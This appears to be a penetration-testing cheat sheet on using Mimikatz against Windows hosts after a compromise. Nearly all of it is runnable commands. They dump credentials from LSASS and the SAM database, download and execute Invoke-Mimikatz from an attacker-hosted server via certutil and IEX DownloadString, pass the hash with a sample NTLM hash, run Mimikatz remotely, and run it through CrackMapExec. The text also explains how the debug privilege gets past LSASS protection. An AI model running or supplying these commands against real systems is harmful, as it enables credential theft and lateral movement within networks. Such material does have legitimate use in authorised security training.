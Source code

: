 # Mimikatz

**Mimikatz** is a Windows post-exploitation tool. It allows fot the extraction of clear-text passwords, hashes and kerberos tickets from memory.

Allow us to perform: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket, and Golden Ticket.



**Required**:

* **pwd the target** with shell/meterpreter
* login with a **high privilege account**



## Transfer to target



<pre class="language-bash" data-title="Metasploit module"><code class="lang-bash"># load the kiwi module
load kiwi

# get help menu
?

# retrieve all credentials with kiwi
creds_all

<strong># dump from SAM db
</strong>lsa_dump_sam
</code></pre>



{% code title="PS shell" %}
```powershell
# create a 'Temp' dir on Target Machine
mkdir Temp

# cp mimikatz file and host server in attack machine on port 80
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# download .exe from attack machine
certutil -urlcache -f http://IP:80/mimikatz.exe mimikatz.exe
```
{% endcode %}



{% code title="meterpreter & mimikatz.exe" %}
```powershell
# create a 'Temp' dir
mkdir Temp

# upload .exe from meterpreter to target machine
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

# execute the program via shell in the target machine
.\mimikatz.exe

# check required privileges
privilege::debug

# lsa dump from SAM db
lsadump::sam

# show clear-text passwords
sekurlsa::logonpasswords
```
{% endcode %}

{% code title="Linux -> Windows Target" %}
```bash
 linux
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
certutil -urlcache -f http://$IP/$FILE_NAME $LOCAL_FILE_NAME
```
{% endcode %}

{% code title="Windows -> Windows Target" %}
```powershell
# Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

## MimiKatz into PowerShell RevShell

Stablished a connection with Hoaxshell

[#hoaxshell](../../pt/executive-pt/post-exploitation/shells.md#hoaxshell "mention")

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1
```
{% endcode %}

Host a webserver with the module Invoke-Mimikatz.ps1

```
python3 -m http.server 80
```

Run this command to import the mimikatz module from attacker webserver and use it.

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<ATT_IP>:<ATT_PORT>/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
{% endcode %}

Execute the dump with imported module.

```powershell
Invoke-Mimikatz -DumpCreds -Verbose
```

## Mimikatz on Remote Windows Machine

The technique below needs enabled WMI session (`New-PSSession`)

```powershell
powershell -ep bypass
. .\Invoke-Mimikatz.ps1

Invoke-mimikatz -ComputerName $HOSTNAME -Verbose
```

## Mimikatz with CrackMapExec

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```



## Credentials Dump

### NTLM

```powershell
```



## Methods

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### sekurlsa

The **sekurlsa** module in Mimikatz, leverages a number of different techniques to extract authentication information from _**LSASS**_ memory including parsing memory structures and using Windows APIs.

#### "logonpasswords"&#x20;

The "logonpasswords" function of this module specifically extracts login session data such as saved password hashes and cached credentials. This can include the current user's logon information, as well as information for other users who have logged onto the same machine.

Example:

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

#### "pth"

The "sekurlsa::pth" command in mimikatz is a features that facilitates "Pass-the-Hash" attacks. This technique allows us to authenticate to a remote system by using a captured NTLM hash of a user's password, without the need for the actual password. To execute this command, we must provide only the following parameters:

* **/user**: (the username)
* **/domain**: (the domain)
* **/ntlm**: (the NTLM hash of the user's password)

{% hint style="info" %}
Note that Windows passwords are not only limited to the NTLM protocol, but may also use popular block encryption algorithms like AES-128 and AES-256 for password storage. In such cases, adversaries would need to use the _**/aes128**_: or _**/aes256**_: parameters instead of _**/ntlm**_:
{% endhint %}

Example:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:Alice /domain:domain.com /ntlm:a0c8746a6efc7782c7c19c55185145be"
```
{% endcode %}



### privilege

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration

#### "debug"

Before run the "sekurlsa::logonpasswords" function, we need to run the "privilege::debug" command.

By default, LSASS runs with high integrity and is protected from being debugged by unauthorized processes. However, by enabling the "_**debugger privilege**_" function, we can bypass this protection and access LSASS memory to extract the logon session data.


















